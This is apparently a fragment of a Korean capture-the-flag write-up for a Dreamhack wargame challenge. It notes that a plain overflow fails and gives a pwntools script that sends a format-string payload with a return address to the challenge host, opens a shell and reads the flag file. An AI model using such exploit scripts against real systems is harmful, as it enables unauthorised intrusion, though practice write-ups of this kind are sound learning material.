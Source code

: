         일반적인 오버플로우 방식이 통하지 않음을 확인

        발생가능한 취약점 중 하나인 포맷 스트링을 사용하여 스택을 정확히 조작

- 코드 수정 이후
    ```
    from pwn import *

    # buf + sfp + get_shell()
    payload = b'%152c' + b'%4c' + b'\x69\x86\x04\x08' 

    r = remote('host3.dreamhack.games', 18968)

    r.send(payload)

    r.interactive()
    ```
    쉘이 실행됨을 확인

- 쉘 실행 이후
    `find -name "flag"`를 입력하여 플래그 파일을 검색
    
    `./flag`

    `cat ./flag`를 입력